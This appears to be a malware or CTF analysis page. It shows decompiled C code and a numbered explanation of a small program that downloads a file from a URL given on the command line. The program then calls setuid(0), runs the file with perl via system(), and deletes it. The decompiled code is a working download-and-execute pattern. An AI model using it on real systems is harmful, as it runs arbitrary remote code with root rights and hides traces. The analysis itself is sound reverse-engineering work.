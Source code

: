 ```
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So here's what is happening

```
1. It first checks if the number of command-line arguments passed to the program (stored in the variable
“argc”) is equal to 3. If not, it prints “Exiting...” and exits the program.

2. It then checks if the user running the program has a non-zero UID (user ID), which would indicate that
they are not running as the root user. If they are not running as root, it prints “Exiting...” and exits the
program.

3. It then checks if the third command-line argument (stored in “argv[2]”) is equal to the string
“lDnxUysaQn”. If not, it prints “Exiting...” and exits the program.

4. If all of the above conditions are met, the program then opens a file with the name specified in
argv[2] in write mode, opens a connection to the URL specified in argv[1] using the curl library, writes
the contents of the URL to the file, and then closes the file and the connection.

5. It then formats a string “perl ./%s”, where %s is the third command-line argument passed to the
program.

6. It then runs the command using the system() function, which is a library function that can be used to
run shell commands from within a C program.

7. Finally, it removes the file “lDnxUysaQn” from the current directory and exits the program.
```
